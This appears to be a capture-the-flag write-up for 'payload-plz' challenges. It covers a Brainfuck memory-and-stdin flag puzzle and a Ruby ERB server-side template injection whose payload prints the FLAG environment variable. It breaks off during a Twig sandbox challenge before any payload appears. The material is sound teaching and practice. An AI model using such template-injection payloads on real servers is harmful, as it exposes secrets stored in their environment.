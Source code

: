 
### Brainfuck

**Context**: The flag is split into two parts, the first part is stored in memory starting at address 0. The second part is available on stdin. The [brainfuck.js](https://payload-plz.com/sources/brainfuck.js) implementation was also given.

```js
// extract of the brainfuck.js file
const STOP = Symbol("stop");
const ops = {
    ">": () => ++fp,
    "<": () => --fp,
    "+": () => ++ram[fp],
    "-": () => --ram[fp],
    ".": () => stdout.push(ram[fp]),
    ",": () => ram[fp] = secondHalf.shift() ?? 0,
    "[": () => ram[fp] === 0 && search(1),
    "]": () => ram[fp] !== 0 && search(-1),
    undefined: () => STOP
};
```

**Payload**: Thank you `o4-mini` for your thinking.

```ps1
[.>],[.,]
```


### ERB SSTI

**Context**: Ruby ERB Server-Side Template Injection (SSTI) vulnerability. There is no escaping applied to the user input. The flag is stored in the environment variable FLAG.

```rb
require 'erb'
PAYLOAD = ENV['PAYLOAD'] || 'Payload'

# Render and output
output = ERB.new(PAYLOAD).result(binding)
puts output
```

**Payload**:

```rb
<%= ENV['FLAG'] %>
```


### Twig SSTI

**Context**: Twig Server-Side Template Injection (SSTI) vulnerability. Same context as the other SSTI.

```php
<?php
require __DIR__ . '/vendor/autoload.php';

use TwigLoaderArrayLoader;
use TwigEnvironment;

$PAYLOAD = getenv('PAYLOAD') ?: 'Payload';

$loader = new ArrayLoader(['index' => $PAYLOAD]);
$twig   = new Environment($loader, [
  'sandbox' => true,
]);

```